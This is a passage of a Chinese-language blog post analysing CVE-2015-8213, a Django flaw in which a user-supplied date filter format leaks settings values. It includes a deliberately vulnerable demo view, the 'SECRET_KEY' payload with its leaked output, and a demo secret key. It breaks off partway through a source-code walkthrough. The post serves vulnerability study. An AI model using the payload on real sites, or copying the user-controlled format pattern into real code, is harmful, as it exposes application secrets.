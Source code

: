 ```yaml
---
layout: post
title: CVE/2015/8213 - Django settings leak possibility in date template filter
---
```

近日 Django 官方发布《[Security releases issued: 1.9rc2, 1.8.7, 1.7.11](https://www.djangoproject.com/weblog/2015/nov/24/security-releases-issued/)》安全公告，修复一个模板层 date 过滤器可能导致 Settings 信息泄露漏洞，从公告中我们可以看到的细节如下：

> If an application allows users to specify an unvalidated format for dates and passes this format to the date filter, e.g. {% raw %}{{ last_updated \|date:user_date_format }}{% endraw %}, then a malicious user could obtain any secret in the application's settings by specifying a settings key instead of a date format. e.g. "SECRET_KEY" instead of "j/m/Y".

如果一个应用程序中允许用户控制模板层的 date 过滤器格式，例如 {% raw %}{{ last_updated \| date:user_date_format }}{% endraw %} ，那么用户就可以通过指定一个非规范的日期格式来获取配置文件中的敏感变量值。例如：{% raw %}{{ last_updated \| date: "SECRET_KEY" }}{% endraw %} 而不是 {% raw %}{{ last_update \| date: "j/m/Y" }}{% endraw %} 。

#### 漏洞效果演示
{% raw %}
Django views.py:

	from django.shortcuts import render
	
	import datetime
	
	def index(request, str_value):
	    return render(request, 'test.html',
	                           {'timenow': datetime.datetime.now(),
	                            'str_value': str_value,})

Django test.html:

	Timenow: {{ timenow }}
	<br>
	Result : {{ timenow | date:str_value}}

http://0.0.0.0:8000/test/Y-m-h/ :
	
	Timenow: Nov. 26, 2015, 9:43 a.m. 
	Result : 2015-11-09

http://0.0.0.0:8000/test/SECRET_KEY/ :
		
	Timenow: Nov. 26, 2015, 9:44 a.m. 
	Result : a.m.6(@6)489(92015-11-26T09:44:43.3510099:44v7$#26k33030nov11Thursday_x4*=330@330Thursday^119:443Thu, 26 Nov 2015 09:44:43 +0000^nov4Thu, 26 Nov 2015 09:44:43 +00008q2015-11-26T09:44:43.351009!%0#
	
cat ../settings.py \| grep 'SECRET_KEY' :

	SECRET_KEY = 'a6(@6)48g(9cfv7$#jkztbml_x4*=z@zl^nf3r^b4r8qc!e%0#'

通过将模板中 date 过滤器的格式替换为 SECRET_KEY 我们成功的获取并输出了 settings.py 中的敏感值，虽然因为特殊字符（时间格式化）的问题，导致这个结果与原字符串有较大差别，但通过技巧仍能还原出字符串得以利用。

#### 漏洞分析与利用

经过阅读源码发现问题出现在 /django/utils/formats.py 文件的 get_format 函数，以下简单记录 Debug 分析过程。

/formats.py getformat() 87line 断点：

![http://ww2.sinaimg.cn/large/c334041bjw1eyeiwfsuw0j20in0h1tbh.jpg](http://ww2.sinaimg.cn/large/c334041bjw1eyeiwfsuw0j20in0h1tbh.jpg)

访问漏洞页面调试，{{ timenow }} 与 {{ timenow \| date:str_value}} 对应值：

- {{ timenow }} : 'DATETIME_FORMAT'
- {{ timenow \| date:str_value}} : u'SECRET_KEY'

date filter 的 str_value 为可控点，作为 get_format format_type参数传入。

    if lang is None: